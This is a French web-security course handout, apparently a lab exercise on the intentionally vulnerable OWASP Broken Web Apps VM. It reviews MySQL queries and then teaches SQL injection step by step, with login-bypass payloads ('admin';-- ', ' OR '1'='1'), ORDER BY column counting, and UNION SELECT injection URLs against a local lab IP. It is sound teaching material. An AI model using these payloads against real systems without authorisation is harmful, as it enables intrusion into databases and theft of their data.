


---
title: "Sécurité Web 1"
author: [Olivier LASNE]
date: "2021-01-18"
subject: "Markdown"
keywords: [Sécuirté Web]
subtitle: ""
lang: "fr"
titlepage: true
...

# Sécurité Web

Pour ce TP nous utiliserons la machine __OWASP Broken Web Apps__ que vous avez déjà. Et l'iso __"From SLQi to Shell"__ que vous pouvez télécharger ici :

__[https://pentesterlab.com/exercises/from_sqli_to_shell/iso](https://pentesterlab.com/exercises/from_sqli_to_shell/iso)__

## Rappel SQL

SQL est un langage de requêtes de base de données.

Vous pouvez vous connecter en SSH à votre VM OWASP Broken Web Apps en SSH. `root/owaspbwa`.

`ssh root@192.168.56.101` (remplacer avec l'IP de la machine)

On peut y lancer MySQL avec la commande suivante :
`mysql -u root -powaspbwa`

Cela lance un shell MySQL. On obtient de l'aide avec la command `help` ou `\h`.
```
mysql> help

For information about MySQL products and services, visit:
   http://www.mysql.com/
For developer information, including the MySQL Reference Manual, visit:
   http://dev.mysql.com/
To buy MySQL Enterprise support, training, or other products, visit:
   https://shop.mysql.com/

List of all MySQL commands:
Note that all text commands must be first on line and end with ';'
?         (\?) Synonym for `help'.
clear     (\c) Clear the current input statement.
connect   (\r) Reconnect to the server. Optional arguments are db and host.
delimiter (\d) Set statement delimiter.
edit      (\e) Edit command with $EDITOR.
ego       (\G) Send command to mysql server, display result vertically.
exit      (\q) Exit mysql. Same as quit.
go        (\g) Send command to mysql server.
help      (\h) Display this help.
nopager   (\n) Disable pager, print to stdout.
notee     (\t) Don't write into outfile.
pager     (\P) Set PAGER [to_pager]. Print the query results via PAGER.
print     (\p) Print current command.
prompt    (\R) Change your mysql prompt.
quit      (\q) Quit mysql.
rehash    (\#) Rebuild completion hash.
source    (\.) Execute an SQL script file. Takes a file name as an argument.
status    (\s) Get status information from the server.
system    (\!) Execute a system shell command.
tee       (\T) Set outfile [to_outfile]. Append everything into given outfile.
use       (\u) Use another database. Takes database name as argument.
charset   (\C) Switch to another charset. Might be needed for processing binlog with multi-byte charsets.
warnings  (\W) Show warnings after every statement.
nowarning (\w) Don't show warnings after every statement.

For server side help, type 'help contents'
```

On peut voir les bases de données avec la commande `show databases;`

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| .svn               |
| bricks             |
| bwapp              |
| citizens           |
| cryptomg           |
| dvwa               |
| gallery2           |
| getboo             |
| ghost              |
| gtd-php            |
| hex                |
| isp                |
| joomla             |
| mutillidae         |
| mysql              |
| nowasp             |
| orangehrm          |
| personalblog       |
| peruggia           |
| phpbb              |
| phpmyadmin         |
| proxy              |
| rentnet            |
| sqlol              |
| tikiwiki           |
| vicnum             |
| wackopicko         |
| wavsepdb           |
| webcal             |
| webgoat_coins      |
| wordpress          |
| wraithlogin        |
| yazd               |
+--------------------+
34 rows in set (0.00 sec)
```

On selectionne une base avec la commande __`use`__ :

```
mysql> use peruggia;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

On peut ensuite lister les tables avec la commande __`show tables;`__ :
```
mysql> show tables;
+--------------------+
| Tables_in_peruggia |
+--------------------+
| picdata            |
| users              |
+--------------------+
2 rows in set (0.00 sec)
```

__/!\ Les commandes `show` et `help` sont des commandes du SHELL MySQL. Il ne s'agit pas de requêtes SQL valides.__

On peut selectionner l'ensemble des champs d'un tables avec la requête `SELECT * FROM nom_de_la_table`.\
Le caractère `*` signifie _tout les champs_.

```
mysql> SELECT * FROM users;
+----+----------+----------------------------------+
| ID | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | user     | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
```

On peut selectionner un seulement certains champs, en les listants séparés par des virgules.
```
mysql> SELECT ID, username FROM users;
+----+----------+
| ID | username |
+----+----------+
|  1 | admin    |
|  2 | user     |
+----+----------+
2 rows in set (0.00 sec)
```

Note : il n'est pas nécessaire de mettre `SELECT` et `FROM` en majuscule. Néanmoins il s'agit de la convention prise dans la plupart des cas de façon à distinguer les _champs_ des _opérateurs_.

On peut utiliser le mot-clé `WHERE` pour filtrer les éléments sélectionnés.

```
mysql> SELECT password FROM users WHERE username = 'admin';
+----------------------------------+
| password                         |
+----------------------------------+
| 21232f297a57a5a743894a0e4a801fc3 |
+----------------------------------+
1 row in set (0.00 sec)
```

__Exercice :__ Selectionner le nom de l'utilisateur avec l'ID 2.

__Exercice 2:__ Dans la base de données _sqlol_. Faire une requête qui trouve si l'utilisateur avec l'_id_ 2 est admin. Le résultat de la requête doit donner un _0_ ou un _1_.

Solution : `SELECT isadmin FROM users WHERE id=2;`

On peut utiliser l'opérateur __`AND`__ pour préciser plusieurs conditions.

```
mysql> SELECT * FROM users WHERE id=1 AND username='admin';
+----+----------+----------------------------------+
| ID | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 21232f297a57a5a743894a0e4a801fc3 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

__Exercice :__ Dans la table _accounts_ de la base de données _nowasp_. Faire une requête qui authentifie un utilisateur c'est à dire :

* Renvoie des données si le nom d'utilisateur et le mot de passe sont bons (et correspondent au même utilisateur).
* Ne renvoie pas de données, si le couple utilisateur mot de passe n'est pas valide.

Pour cela, faire une requête _WHERE_ et _AND_ qui vérifie à la fois le nom d'utilisateur et le mot de passe.

Solution :\
`SELECT * FROM accounts WHERE username='adrian' AND password='somepassword';`

# Injection SQL

Si les données sont passées tels quel à l'application, on peut "s'échapper" des données pour modifier la requête.

En MySQL, "`-- `" signifie "la suite est un commentaire. __/!\\ Attention à l'espace après le `--`.__

Ainsi, si on rentre comme nom d'utilisateur _`admin';-- `.

La requête `SELECT * FROM accounts WHERE username=$username AND password=$password;`

```
SELECT * FROM accounts WHERE username='admin';-- ' AND password='';
```

Ce qu'il y a après le "`-- `" étant considérer comme un commentaire, MySQL interprète le requête comme 
```
SELECT * FROM accounts WHERE username='admin';
```

## Injecter sans connaître d'utilisateur

Si on ne connait pas de nom d'utilisateur, on peut utiliser la syntaxe `xxx' OR '1'='1'; -- ` pour créer une requête qui soit toujours vrai.

Injecter sans connaitre un utilisateur : `nimp' OR '1'='1';-- `


# Injection avec UNION

On va chercher à utiliser l'opérateur UNION pour extraire des données de la base SQL.

## Déterminer le nombre de colonnes

Prennons l'exemple de OWASP Bircks content 1.

L'URL : `http://192.168.56.101/owaspbricks/content-1/index.php?id=1`.

Effectue la requête :
```
SELECT * FROM users WHERE idusers=1 LIMIT 1
```

------------------------

On utilise l'opérateur `ORDER BY` pour déterminer le nombre de colonnes.

`http://192.168.56.101/owaspbricks/content-1/index.php?id=1+ORDER+BY+8` est valide, et correpond à la requête SQL

```
SELECT * FROM users WHERE idusers=1 ORDER BY 8 LIMIT 1;
```

```
+---------+------+-------------------+----------+---
| idusers | name | email             | password |
+---------+------+-------------------+----------+--- ...
|       1 | tom  | tom@getmantra.com | tom      |
+---------+------+-------------------+----------+---
```

Néanmoins, dès que l'on dépasse le nombre de colonnes avec `ORDER BY 9`, l'application renvoie une erreur.



On en déduit donc que la __réponse à la requête SQL__ effectué par l'application ne contient que __8 colonnes__.

## Création d'une requête avec UNION

Maintenant que l'on connait le nombre de colonnes de la requête SQL, on peut insérer une requête avec `UNION` pour extraire des données de la base.

Comme la réponse contient 8 colonnes, on insère un union avec 8 `NULL`. On ajoute également le fameux __`;-- `__ pour commenter la fin de la requête.

L'URL : `http://192.168.56.101/owaspbricks/content-1/index.php?id=1+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL;-- `.

Ce qui donne la requête :
```
SELECT * FROM users WHERE idusers=1 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL;--  LIMIT 1;
```

```
+---------+------+-------------------+----------+---------------+--
| idusers | name | email             | password | ua            | r
+---------+------+-------------------+----------+---------------+--
|       1 | tom  | tom@getmantra.com | tom      | Block_Browser |  
|    NULL | NULL | NULL              | NULL     | NULL          | N
+---------+------+-------------------+----------+---------------+--
```

L'application n'affiche malgré tout que la première ligne. Nos `NULL` ne sont donc pas affichés.\
 Néanmoins, l'absence de message d'erreur nous permet de déduire que nous avons bien le bon nombre de colonnes.

